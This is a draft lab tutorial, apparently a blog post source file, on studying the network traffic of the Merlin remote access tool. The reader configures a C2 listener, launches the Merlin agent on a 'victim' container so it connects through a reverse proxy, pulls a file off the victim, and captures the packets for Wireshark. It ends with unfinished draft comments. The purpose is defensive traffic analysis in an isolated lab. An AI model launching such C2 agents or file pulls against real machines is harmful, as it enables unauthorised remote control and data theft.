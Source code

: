 ```yaml
---
title: Running a scenario.
description: Draft
date: 2021-07-03
scheduled: 2021-07-03
layout: layouts/post.njk
order: 7
tags: posts
---
```


Let's see how a Remote Access Tool like Merlin communicates! We'll capture and read packets in two scenarios:

    * when the attacker connects straight to the victim,
    * when the attacker connects through our reverse proxy.

First, let's configure the merlin server. Go to the Attacker and open Merlin (remember that you can hit TAB to see all availeable options). Next, type `listeners` and `use http2`. Now we'll configure our HTTPS listener again. Type in `show`. Let's set Interface to our container's IP address, set Port to 5555, and rename it to MerlinListener. Normally you'd change the PSK, the preshared key you use in your first connection to the server, for something stronger but we'll leave it as is.

![merlin http setup](/img/remote/merlin-config.png)

Looks good! Let's start it.

Start up our Reverse Proxy and let's get on to our Victim. You should open two terminals, one for capturing and the other for connecting.
Start up the capture:

``` bash
tcpdump -s 65535 -i any -v -w my_capture.pcap
```

And in the other terminal let's start the agent. The address that we pass leads to our Reverse Proxy that will pass the traffic from and to our Attacker.

``` bash
./merlinAgent-Linux-x64 -url https://172.17.0.4/merlin -psk 'merlin' -v
```

We can already see a couple dozen packages just from the connection. If we wait we can see that each check-in from the agent generates another dozen packages.
Before we get a thousand of idle message packages, let's give our agent something to do. In Merlin type in `interact` and let TAB completion fill out agent ID. Next let's see what files our Victim with `ls`. We can see the `hello.txt` file we put on the Victim earlier. Let's download it back.

![download hello](/img/remote/merlin-job.png)

![agent job](/img/remote/agent-job.png)

Now let's stop the packet capture with `CTRL + C` as well as the agent and Merlin. Let's transfer the capture from the container to our Desktop, like before:

``` bash
docker cp edf2ed59c20d:/my_capture.pcap C:\Users\User\Desktop\my_capture.pcap
```

Open the file with WireShark and let's see what we captured.

![packet capture](/img/remote/packet-capture.png)

This is a whole lot of packets and seemingly unreadable information, and this isn't a tutorial about reading WireShark output, but we can get some snippets of information out of them.





















// one connection http straight to merlin
// one and half doesnt work http through proxy dunno why
// second connection http2 straight to merlin
// third connection http2 through proxy to merlin